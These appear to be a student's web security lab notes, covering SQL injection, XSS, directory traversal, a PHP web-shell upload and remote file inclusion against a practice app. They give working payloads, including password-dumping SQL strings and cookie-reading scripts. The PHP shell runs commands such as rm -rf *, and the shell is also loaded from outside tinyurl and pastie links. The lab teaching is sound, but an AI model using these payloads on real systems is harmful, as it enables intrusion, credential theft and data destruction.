 # Week 14.1
## SQL Refresher
In this activity we will use SQL injection queries. 
Notably when we want to pull more columns in our payload than what is present in the existing query we need to use a union and a concat to conbine column data.
```mysql
select first_name, last_name from users where user_id = '1'
select first_name, last_name from users where user_id = '1' or '1=1'
select first_name, last_name from users where user_id = '1' or 'chicken'='chicken'
select first_name, last_name from users where user_id = '1' union select user_id, password from users where '1=1'
select first_name, last_name from users where user_id = '1' union select concat(first_name, " ", last_name), password from users where '1=1'
```
## Testing SQL Injection on Web Applications
In this activity we will practice SQL injections on a dummy web app. <br>
First we test the intended use of the input feild. We enter user id "1" which pulls our admin user.<br>
Then using the queries from our previous lab we take only the payloads and input then to see our results.<br>
Note our payloads are the same but they lack the first and last quotation as that is built in to the query on the web app.
```mysql
1' or '1=1
1' or 'chicken'='chicken
1' union select user_id, password from users where '1=1
1' union select concat(first_name, " ", last_name), password from users where '1=1
```
The best ways to defend against these attacks is with input sanitization or prepared statements.
## Testing XSS on Web Applications
First we use the input field as intented. <br>
Second we inspect the page and search for where our input was placed in the html.
Third we attempt to right some harmless html code to test if the page is vulnerable like bolding the name.
Finally, since we confirmed we can modify the page lets input some scripts.
```html
<script>alert("Hi Robert")</script>
<script>alert(document.cookie)</script>
```
Adding these scripts can capture private cookies or load malware onto the victim's machine.
We can combat this by using response headrs or server-side input validation.
# Week 14.2

## Directory Traversal
For this lab we notice when we change to a different page the URL changes as well. <br>
http://192.168.13.25/vulnerabilities/fi/?page=file1.php<br>
http://192.168.13.25/vulnerabilities/fi/?page=file2.php<br>
For this lab we will use docker to connect to the websites container.
In the container we will go to the location where the file1.php are located.<br>
cd /var/www/html/vulnerabilities/fi<br>
In this folder we run ls and notice all the web pages are stored here including file4.php.
Although there is no link on the website for this file we can edit the url to bring us to this page:
http://192.168.13.25/vulnerabilities/fi/?page=file4.php<br>
Now that we know the page is vulnerable to directory traversal lets locate passwd, group, hosts, and network from the var file.
http://192.168.13.25/vulnerabilities/fi/?page=/../../../../etc/passwd<br>
http://192.168.13.25/vulnerabilities/fi/?page=/../../../../etc/group<br>
http://192.168.13.25/vulnerabilities/fi/?page=/../../../../etc/hosts<br>
http://192.168.13.25/vulnerabilities/fi/?page=/../../../../etc/network<br>
This displays all the contents of those files to the page leaking highly sensitive information. 
To avoid this we need to segregate confidential files from the web server and accessible directories. 
We should also have server side validation that does not allow the selection of unintended files.

## Local File Inclusion 
In this section of the web app we have a file upload section. We test the upload by sending in a normal .jpg. This site made the mistake of displaying where the image was uploaded to. 
By using this location we can upload a script and run commands through that script. <b>The last script is not recommended!</b>
```console
# script.php
<?php 
$command = $_GET['cmd'];
echo system($command); 
?>
192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=ls
http://192.168.13.25/hackable/uploads/script.php?cmd=whoami
http://192.168.13.25/hackable/uploads/script.php?cmd=pwd
http://192.168.13.25/hackable/uploads/script.php?cmd=ps
http://192.168.13.25/hackable/uploads/script.php?cmd=cat%20/etc/passwd
http://192.168.13.25/hackable/uploads/script.php?cmd=rm -rf *

```
## Remote File Inclusion
Further to the above issues with input validation we can also reference a remote web page. The below payload will display another web page on top of the existing website.
http://192.168.13.25/vulnerabilities/fi/?page=http://www.example.com
In the same way we used local file Inclusion we can use it remotely.
By referencing a webpage containing our script from before we can again run our scripts freely:
```console
https://tinyurl.com/y498epmz
<?php
  $command = $_GET['cmd'];
  echo system($command);
?>
http://192.168.13.25/vulnerabilities/fi/?cmd=whoami&page=https://tinyurl.com/y498epmz
http://192.168.13.25/vulnerabilities/fi/?cmd=ls&page=https://tinyurl.com/y498epmz
http://192.168.13.25/vulnerabilities/fi/?cmd=ps&page=https://tinyurl.com/y498epmz
http://192.168.13.25/vulnerabilities/fi/?cmd=cat%20../../../../../etc/hosts&page=https://tinyurl.com/y498epmz
```
Next lets combine this with our XSS payload
```console
https://tinyurl.com/yxk853vy
# Contents of the tinyurl
<?php 
$html = <<<EOT
<script>alert("Hey you have been hacked")</script>
EOT;
echo $html;
?>
http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/yxk853vy
```
Lets create our own using a site called pastie. I will write a short script and save the file within pastie. Then using that url we append it to the vulnerable website and the popup appears.
```html
http://pastie.org/p/6pwV27q5tomAe6rbJHjFxc/raw
# contents
<script>alert(document.cookie)</script>
http://192.168.13.25/vulnerabilities/fi/?page=http://pastie.org/p/6pwV27q5tomAe6rbJHjFxc/raw
```

# Week 14.3

## Analyzing Session Management Vulnerabilities with Burp Repeater and Conducting Brute-Force Attacks with Burp Intruder
These will both be uploaded as PDFs as they are primarily screenshots and some written answers.
